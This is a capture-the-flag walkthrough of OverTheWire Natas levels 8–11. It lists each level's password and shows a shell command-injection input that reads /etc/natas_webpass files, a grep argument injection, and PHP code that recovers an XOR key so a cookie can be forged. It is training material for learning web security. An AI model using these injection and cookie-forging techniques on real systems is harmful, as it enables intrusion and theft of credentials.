 ### Level 8 `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`
- Click on View Source. Understand the PHP Code.
- We realise that we need to find the: 
```php
base64_decode(strrev(hex2bin( "3d3d516343746d4d6d6c315669563362" )));
```
- It is "oubWYf2kBq"
- Paste this in input box.
- It gives the password.

### Level 9 `W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`
- Open the source code and understand what php is doing.
- We see that php is clearly running the command directly we enter in it's shell between "grep -i " and " dictionary.txt"
- At the first look it looks like we'll find the password in dictionary.txt, but we wont.
- We can directly get it from /etc/natas_webpass/
- So we enter this in the textbox;
```
; cat /etc/natas_webpass/natas10;
```
- And we get the password for level 10.

### Level 10 `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`
- Read php part of source-code to understand which characters are not allowed.
```
-e "." /etc/natas_webpass/natas11 #
```

### Level 11 `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`
- Understand the PHP code.
- We see that there is no way we can give any input from HTML that could change the variable `showpassword` in PHP, unless we change the cookie value itself.
- To change the cookie value though, we need the secret key. Which we can get because of the following XOR property
```
If A^B = C,
Then A^C = B = C^A
And B^C = A = C^B
```
- So we use the following PHP code to find the key (and verify that it is actually the correct key):
- ***Notice that we've replaced URL encoded "%3D" (in cookie value) to ASCII "="***
```php
<?php

function xor_encrypt($in, $ke) {
    $key = $ke;
    $text = $in;
    $outText = '';
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}

$cook = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=";
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
$mykey = base64_decode($cook);
$actualkey = xor_encrypt(json_encode($defaultdata), $mykey);
print $actualkey;
print " --- ";
print base64_encode(xor_encrypt(json_encode($defaultdata), $actualkey));
?>

```